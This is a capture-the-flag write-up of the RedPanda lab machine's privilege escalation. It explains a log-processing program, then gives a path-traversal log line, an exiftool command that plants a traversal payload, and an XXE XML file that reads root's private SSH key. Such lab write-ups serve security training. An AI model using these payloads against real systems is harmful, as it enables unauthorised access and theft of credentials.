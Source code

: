 I will try to summarize what the code is doing:

- The program start reading one by one the lines in the log file `/opt/panda_search/redpanda.log`.
- If the line contains the substring `.jpg` the program will process it if not it just continues reading.
- Once the substring is found in a line, the program parse the line to extract the status code, the ip address of the client, the user agend of the client and the URL visited.
- From the URL the program build a path to the image the client checked to get the artist name from the image metadata.
- Once the artist name is obtained, the code build another path, this time to the XML file holding the information for the artist.
- The code add 1 to the visit count of the artist photo that the client visited and also adds 1 to the total visits of the artist.

### Exploit time

The problem with this code is that it is building paths to files without sanitizing the user input so we can abuse it and perform a path traversal attack. This is the idea:

- Introducing this line into the log file will make the code look for a image outside the expected directory, since we have control over `/tmp` we can use whatever image we want:
```
200||localhost||AGENT||/../../../../../../../tmp/mal.jpg
```

- The image will have a metadata tag called `Artist` with a path traversal payload. The idea is to force it to search for a XML for this Artist in the `/tmp`:
```bash
┌──(kali㉿kali)-[~/Documents/HTB/RedPanda/privesc]
└─$ exiftool -Artist="../../../../../../../../../../tmp/mal" mal.jpg
    1 image files updated
```
- For the final part of the exploit, the XML file, that we will force the code to process, will contain an external entity (XXE) to read the SSH key of the `root` user:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY exploit SYSTEM "/root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../tmp/mal.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
  <data>&exploit;</data>
</credits>
```

After putting the malicious XML file and the custom image in the `/tmp` directory, we can add the line  I mentioned above in the log file and wait for the magic to happen. Eventually, if we check the XML file the `data` tag will now contain the private SSH key of the `root` user.

Since the SSH configuration allows the `root` user to connect through SSH, we can now use it to connect through SSH and get the flag!
